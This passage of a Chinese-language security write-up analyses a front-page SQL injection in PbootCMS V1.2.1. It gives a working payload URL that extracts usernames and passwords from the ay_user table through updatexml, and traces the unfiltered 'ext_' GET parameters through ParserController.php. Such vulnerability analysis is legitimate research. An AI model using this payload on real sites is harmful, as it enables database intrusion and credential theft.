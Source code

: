 根据6.0可以看到带入了进入了 insert 那么我们传的二维数组刚好可以控制key
带入数据库查询引发注入.

0X01.3 前台首页注入
-------------------

0x08.3.1 漏洞演示 url:

    http://127.0.0.1/cms/PbootCMS-V1.2.1/index.php/Index?ext_price%3D1/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));%23=123

![](./resource/PbootCMSsql注入/media/rId37.png)

### 0x01.3.2 漏洞解读

文件地址：PbootCMS-V1.2.1\\apps\\home\\controller\\ParserController.php
方法：index(

    // 首页 骚操作 注入
        // parserAfter -> parserSpecifyListLabel
        public function index()
        {
            $content = parent::parser('index.html'); // 框架标签解析
            $content = $this->parser->parserBefore($content); // CMS公共标签前置解析
            $content = $this->parser->parserPositionLabel($content, - 1, '首页', SITE_DIR . '/'); // CMS当前位置标签解析
            $content = $this->parser->parserSpecialPageSortLabel($content, 0, '', SITE_DIR . '/'); // 解析分类标签
            $content = $this->parser->parserAfter($content); // CMS公共标签后置解析
            $this->cache($content, true);
        }

文件地址：apps\\home\\controller\\ParserController.php
方法：parserAfter()

    跟进 $content = $this->parser->parserAfter($content); 这个方法
    // 解析全局后置公共标签
        public function parserAfter($content)
        {
            ...
            $content = $this->parserSpecifyListLabel($content); // 指定列表
            return $content;
        }

方法：parserSpecifyListLabel(

    进入以后 查看调用了 $content = $this->parserSpecifyListLabel($content); 方法
    // 解析指定分类列表标签
    public function parserSpecifyListLabel($content)
    {
      ...
      // 数据筛选 骚操作注入
      $where2 = array();
      foreach ($_GET as $key => $value) {
        if (substr($key, 0, 4) == 'ext_') { // 其他字段不加入
          $where2[$key] = get($key);
        }
      }
      ...
      // 读取数据
      if ($page) {
        $data = $this->model->getList($scode, $num, $order, $where1, $where2);
      } else {
        $data = $this->model->getSpecifyList($scode, $num, $order, $where1, $where2);
      }
    }
